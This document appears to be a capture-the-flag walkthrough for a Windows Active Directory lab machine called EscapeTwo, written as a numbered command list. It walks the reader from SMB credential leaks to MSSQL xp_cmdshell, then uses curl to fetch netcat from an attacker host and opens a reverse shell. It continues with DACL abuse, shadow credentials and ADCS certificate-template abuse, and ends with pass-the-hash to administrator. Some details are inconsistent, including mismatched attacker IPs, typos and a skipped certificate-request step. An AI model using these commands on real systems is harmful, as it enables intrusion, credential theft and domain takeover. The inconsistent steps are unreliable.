VPN 10.10.11.51

Machine Information

As is common in real life Windows pentests, you will start this box with

credentials for the following account: rose / KxEPkKe6R8su

1\. INFO: add it to /etc/hosts file

RUN: **sudo nano /etc/hosts**

2\. INFO: Nmap. RUN NMAP 2 times in a row to get ALL PORTS or USE

ALTERNATIVE SCAN COMMAND!

RUN: **sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txt escapetwo.htb**

ALTERNATIVE: **sudo nmap -Pn -p- \--min-rate 5000 \--max-rate 10000 -T4 -sC -sV -oN nmap-aggressive.txt escapetwo.htb**



3\. INFO: Get infos on HOSTS, SERVICES, SHARES

INFO: account: rose / KxEPkKe6R8su

RUN: **crackmapexec smb escapetwo.htb -u "rose" -p "KxEPkKe6R8su" \--rid-brute \| grep SidTypeUser**



3.1 INFO: add DC01 to hosts file

RUN: **sudo nano /ets/hosts**



4\. INFO: Try SMB first. SMB file leak!



4.1 INFO: Download accounting_2024.xlsx accounts.xlsx to KALI VM. Open

files with LibreOFFICE or gnumeric in LINUX

Logged in smb: \\> RUN: **get accounting_2024.xlsx** 

Logged in smb: \\> RUN: **get accounts.xlsx** 

RESULT: FOUND USER:PASSWORD =\> sa:MSSQLP@ssw0rd!



Open xlsx-files with LibreOffice Calc or Gnumeric



4.2 WORKAROUND for xlsx-files

INFO: Check accounts.xlsx for filetype

RUN: **file accounts.xlsx RESULT: It's a ZIP file**

NEXT: Extract sharedStrings.xml from accounts.xlsx and open it look for

SA-USER and his PASSWORD



**FOOTHOLD**

5.1 INFO: successfully login into mssql service

RUN WORKED: **impacket-mssqlclient escapetwo.htb/sa:MSSQLP\@ssw0rd\!\@10.10.11.51**



**Sa**= System Administrator, **dbo**= Schema, **master**= Current

Database context is master system database

5.2 INFO: Check USER

RUN: **xp_cmdshell whoami**



5.3 INFO:

RUN: **enable_xp_cmdshell**



5.4 INFO: Check USER AGAIN

RUN: **xp_cmdshell whoami**



5.5 INFO: Download NETCAT for Windows https://github.com/int0x33/nc.exe/

INFO: Upload it and get REVERSE SHELL. IMPORTANT: Start http Server on

Kali VM and RUN command on TARGET MACHINE (SERVER)!

RUN on Kali VM: **python3 -m http.server 80**



RUN on SERVER: **xp_cmdshell curl 10.10.14.163/nc64.exe -o C:\Users\public\nc64.exe** (Has to be done fast, otherwise STEP 5.3

has to be repeated) 10.10.14.184 is Kali VM IP!

5.6 INFO: Start NETCAT on Kali VM

RUN on Kali VM: **nc -lvnp 9999**



5.7 INFO: Connects from Server to Kali VM.

RUN on SERVER: **xp_cmdshell C:\Users\public\nc64.exe 10.10.14.163 9999 -e cmd.exe**



**GET USER**

6\. INFO: Found another PASSWORD in **sql-Configuration.INI**, in folder

**C:\SQL2019\ExpressAdv_ENU**

7\. INFO: Switch STEP BY STEP through the directories

RUN on SERVER: **cd C:\**

RUN on SERVER: **dir**

RUN on SERVER: **cd SQL2019**

RUN on SERVER: **dir**

RUN on SERVER: **cd ExpressAdv_ENU**

RUN on SERVER: **dir**



7.1 INFO: Display file content

RUN on SERVER: **type sql-Configuration.INI** (displays the file in cmd

terminal)



7.2 INFO: Search for USERS in directory of the SERVER and try the

PASSWORD from STEP 7.1 to login with



7.3 INFO: POWERSHELL remote login

RUN: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

RUN: cd ../Desktop

RUN: type user.txt

8\. INFO: Add sequel.htb and dc01.sequel.htb to /etc/hosts

RUN on SERVER: ipconfig -all

8.1 INFO: DOWNLOAD JSON files (ACTIVE DIRECTORY SERVER ENVIRONMENT)

RUN on Kali VM: bloodhound-python -u ryan -p "WqSZAF6CysDQbGb3" -d sequel.htb -ns 10.10.11.51 -c All

8.2 INFO: Start DATABASE on Kali VM

RUN on Kali VM: sudo neo4j console

8.3 INFO: Start Bloodhound GUI and DRAG & DROP all JSON-files

Start Bloodhound: Login with credentials (previously configured, see

STEPS in CERTIFIED VM) User: neo4j Password: as163452

8.4 INFO: View rights of USER: Ryan. He has WRITE OWNER permission on

USER: CA_SVC. CA_SVC is certificate issuer

8.5 INFO: CA_SVC is certificate issuer, so set owner of CA_SVC to Ryan

RUN on Kali VM: bloodyAD \--host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'

8.6 INFO: Get Control rights. SOURCE:

https://www.thehacker.recipes/ad/movement/dacl/grant-rights

IMPORTANT: IF THE FOLLOWING COMMAND IS NOT WORKING = ERROR: \[-\] Could

not modify object, the server reports insufficient rights: 00000005:

SecErr: DSID-03152E13, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0

=\>\>, repeat STEP 8.5 and RERUN impacket-dacledit command !

RUN: impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"

9\. INFO: ESC4 to ESC1. SOURCE:

https://book.hacktricks.xyz/kr/windows-hardening/active-directory-methodology/ad-certificates/domain-persistence?fallback=true

INFO: Obtain SHADOW CREDENTIALS and NTHash.

IMPORTANT: If ERROR occurs: \[-\] Could not update Key Credentials for

'ca_svc' due to insufficient access rights: 00002098: SecErr:

DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0. NEXT: REPEAT

STEPS 8.5 & 8.6

RUN: certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'

GOT NTHASH: \[\*\] NT hash for 'ca_svc':

3b181b914e7a9d5508ea1e20bc2b7fce

10\. INFO: Download Certify.exe from GITHUB

https://github.com/ademkanat/Certify/blob/main/Certify.exe

Find a usable template, it's settings have to be overwritten.

Use Certify.exe to upload to the target machine

RUN on Kali VM: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

INFO: Upload Certify.exe to SERVER

RUN on SERVER: impacket-mssqlclient escapetwo.htb/sa:MSSQLP\@ssw0rd\!\@10.10.11.51

RUN on SERVER: enable_xp_cmdshell

RUN LOGGEDIN on POWERSHELL, on SERVER: mkdir C:\temp

RUN on SERVER: xp_cmdshell curl 10.10.14.184/Certify.exe -o C:\Users\public\Certify.exe (Uploads Certify.exe to SERVER)

RUN LOGGEDIN on POWERSHELL, on SERVER: C:\temp\> ./Certify.exe find /domain:sequel.htb

10\. 2nd INFO: Change directory

RUN: cd C:\temp

12\. INFO: Run Certify.exe. You can see that ca_svc has overridable

permissions for this certificate, so let's overwrite it. (IN NEXT

STEP)

RUN: .\Certify.exe find /domain:sequel.htb

13\. INFO: Override it

RUN on Kali VM: KRB5CCNAME=\$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb

14\. INFO: CERTIPY. Using ca_svc the user's credential hash, a Kerberos

request is made to obtain an authentication ticket to the target system.

IMPORTANT: Paste HASH 3b181b914e7a9d5508ea1e20bc2b7fce from STEP 9

15\. INFO: Get the Administrator's hash through the certificate

RUN on Kali VM: certipy-ad auth -pfx administrator_10.pfx -domain sequel.htb

15.2 INFO: POWERSHELL login as ADMINISTRATOR and get USER.TXT

IMPORTANT: Paste HASH you got in STEP 15

RUN on KALI: evil-winrm -i 10.10.11.51 -u "administrator" -H "7a8d4e04986afa8ed4060f75e5a0b3ff"

RUN on SERVER: cd ../Desktop

RUN on SERVER: type root.txt
